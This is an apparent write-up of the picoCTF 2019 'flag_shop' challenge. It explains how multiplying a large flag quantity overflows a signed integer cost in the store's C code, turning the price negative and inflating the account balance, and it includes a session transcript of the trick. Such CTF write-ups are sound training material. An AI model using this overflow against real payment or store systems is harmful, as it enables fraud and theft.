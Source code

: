 
Name: flag_shop  
Points: 300  
Challenge: There's a flag shop selling stuff, can you buy a flag? [Source](https://2019shell1.picoctf.com/static/23b8f90691073c4466b11fe2bae8d6ae/store.c). Connect with nc 2019shell1.picoctf.com 29250.  
Solution: Upon connection, a text-based menu is presented to the user. There is not enough money in the account to buy the "real" flag.  
Upon inspection of the source code, it becomes apparent that the total cost for buying a flag is stored as an integer and could be overflowed by buying a very large number of flags, as this is the calculation base for `total_cost`:
```c
if(number_flags > 0){
    int total_cost = 0;
    total_cost = 900*number_flags;
    printf("\nThe final cost is: %d\n", total_cost);
    if(total_cost <= account_balance){
        account_balance = account_balance - total_cost;
        printf("\nYour current balance after transaction: %d\n\n", account_balance);
    }
```
By doing so, the cost turns negative, effectively adding money into the users' account:
```
Welcome to the flag exchange
We sell flags

(...)

Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
3579138

The final cost is: -1073743096

Your current balance after transaction: 1073744196

Welcome to the flag exchange
We sell flags

(...)

Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: 
```

---